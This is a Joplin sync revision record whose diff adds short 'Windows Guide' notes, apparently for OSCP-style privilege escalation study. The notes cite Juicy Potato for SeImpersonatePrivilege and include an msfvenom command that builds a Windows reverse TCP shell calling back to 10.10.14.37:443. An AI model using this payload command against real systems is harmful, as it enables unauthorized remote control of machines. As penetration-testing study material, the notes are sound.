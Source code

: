 id: ac1c55bebe6f498a9d91978d9065eba0
parent_id: 
item_type: 1
item_id: 5e4294f0738d4d969fc5e1aa80617d0b
item_updated_time: 1650616950557
title_diff: "[{\"diffs\":[[1,\"Windows Guide\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":13}]"
body_diff: "[{\"diffs\":[[1,\"https://www.hackingdream.net/2020/03/windows-privilege-escalation-cheatsheet-for-oscp.html \\\n\\\n# whoami /priv\\\n\\\n## SeImpersonatePrivilege\\\n\\\nUse Juicy Potato exploit\\\n\\\n> msfvenom -p windows/x64/shell\\\\_reverse\\\\_tcp LHOST=10.10.14.37 LPORT=443 -f exe -o reverse.exe\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":257}]"
metadata_diff: {"new":{"id":"5e4294f0738d4d969fc5e1aa80617d0b","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"1.30360000","longitude":"103.85540000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T08:46:57.727Z
created_time: 2022-04-22T08:46:57.727Z
type_: 13